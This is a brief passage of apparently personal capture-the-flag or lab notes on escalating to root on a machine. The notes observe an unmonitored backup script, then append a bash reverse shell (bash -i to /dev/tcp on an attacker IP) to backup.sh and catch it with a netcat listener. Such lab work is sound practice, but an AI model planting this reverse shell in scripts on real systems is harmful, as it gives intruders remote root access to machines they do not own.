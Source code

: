 - admin account access, but no sudo executable
	- check backup execution
	- `crontab -l` empty
	- probably run somewhere else
	- chekc with `pspy64`

* add rev shell to backup.sh
```bash
# attacker
nc -nvlp 8888
# grimmie
nano backup.sh
bash -i >& /dev/tcp/192.168.57.5/8888 0>&1
```

- root access
